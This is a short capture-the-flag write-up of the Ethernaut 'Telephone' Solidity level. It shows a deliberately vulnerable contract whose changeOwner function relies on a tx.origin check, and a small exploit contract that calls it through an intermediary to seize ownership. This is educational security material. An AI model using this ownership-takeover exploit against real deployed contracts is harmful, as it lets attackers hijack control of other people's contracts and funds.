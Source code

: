 ## 4. Telephone

Goal for this exercise is:

- Claim ownership of the contract


<br/>

Here is the contract code:
~~~
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
~~~



Important was to notice use of `tx.origin`.

Plan is to write contract which interacts with `changeOwner()` function.

<br/>

Here is code for the exploit:
~~~
pragma solidity ^0.6.0;


interface Telephone {
    function changeOwner(address _owner) external;
}

contract TelephoneExploit {


    function claimOwner(address _telephoneContract) public {
        Telephone(_telephoneContract).changeOwner(msg.sender);
    
    }
}
~~~

<br/>

I deployed contract from Remix IDE and called `claimOwner()` function.
